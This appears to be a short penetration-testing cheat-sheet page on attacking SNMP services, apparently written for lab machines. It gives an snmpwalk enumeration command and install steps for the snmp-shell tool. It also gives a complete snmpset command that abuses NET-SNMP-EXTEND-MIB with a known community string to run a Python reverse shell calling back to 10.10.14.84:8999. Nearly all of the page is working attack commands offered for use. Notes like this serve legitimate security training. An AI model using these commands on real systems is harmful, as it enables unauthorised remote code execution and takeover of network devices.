 # 🟢 SNMP

```
snmpwalk -v2c -c public 10.129.129.248 > snmp.txt
```

{% embed url="https://www.poplabsec.com/snmp-penetration-testing/" %}

### **Getting the Shell** **from Net-SNMP Extend**

```
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```

**Creating reverse shell**

You can also create reverse shell manually by injecting the command below into the SNMP

```
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.129.2.26 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.84\",8999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```
